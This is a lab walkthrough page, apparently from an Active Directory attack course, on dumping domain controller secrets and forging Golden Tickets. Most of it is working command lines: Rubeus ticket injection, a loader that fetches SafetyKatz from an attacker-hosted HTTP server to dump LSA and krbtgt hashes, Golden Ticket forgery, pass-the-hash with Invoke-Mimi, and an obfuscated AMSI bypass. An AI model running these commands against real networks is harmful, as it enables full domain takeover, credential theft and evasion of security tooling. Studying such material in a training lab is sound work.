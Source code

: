 # 🎟️ Extract secrets from DC, Create and use Golden Tickets

So after getting domain admin privileges, we will encode parameters as usual and run the rubeus command and ask for tgt and spawn a shell with domain admin privileges ->

<figure><img src="../../.gitbook/assets/image (1109).png" alt=""><figcaption><p>Running the rubeus command makes a shell spawn with DA privileges</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now we're going to copy Loader.exe on dcorp-dc:

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
#now let's hop on the dcorp-dc machine
winrs -r:dcorp-dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.13
```

<figure><img src="../../.gitbook/assets/image (1111).png" alt=""><figcaption><p>Beware the path is dcorp-dc and not dcorpdc like in the manual</p></figcaption></figure>

Now we're going to use ArgSplit on the student VM to encode `lsadump::lsa`

<figure><img src="../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

And then we will put it on the Admin instance that popped&#x20;

This will allow us to run the following command (don't forget to run a wsl python server to go and fetch the SafteyKatz exe)

```
C:\Users\Public\Loader.exe -path http://172.13.100.13:5454/SafetyKatz.exe -args "%Pwn% /patch" "exit"
```

<figure><img src="../../.gitbook/assets/image (1112).png" alt=""><figcaption></figcaption></figure>

And this will dump the hashes we need:

<figure><img src="../../.gitbook/assets/image (1113).png" alt=""><figcaption></figcaption></figure>

***

To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack, now try encoding `lsadump::dcsync`

And we can run the following:

```
C:\Users\Public\Loader.exe -path http://172.16.100.13:5454/SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../.gitbook/assets/image (1114).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1115).png" alt=""><figcaption></figcaption></figure>

Now we could use the below Rubeus command to generate an OPSEC friendly command for Golden ticket.

Let's first encode "golden"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

This will generate a command to forge a golden ticket:

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We need to add /ptt at the end of the generated command to inject it in the current process.

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:35 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access dcorp-dc as admin:

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

***

We can also use BetterSafetyKatz.exe to create a Golden ticket. Run the below command from an elevated command prompt.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption><p>We can see ticket is cached</p></figcaption></figure>

Here is a POC we have RCE on dcorp-dc ->

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption><p>dir \dcorp-dc\c$</p></figcaption></figure>

***

We can also use PowerShell Remoting and Invoke-Mimi.ps1 to start a process with DA privileges, we'll need to throw this from a elevated shell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:cmd.exe"'
```

And this will pop a shell:

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Now in the DA process ->

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```
 S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n'ULl},${t'RuE} )
 exit
 Invoke-Command -FilePath .\Invoke-Mimi.ps1 -Session $sess
 Enter-PSSession $sess
 Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

And just like that we are able to dump the hashes

***

Theres some other stuff in the course, go check
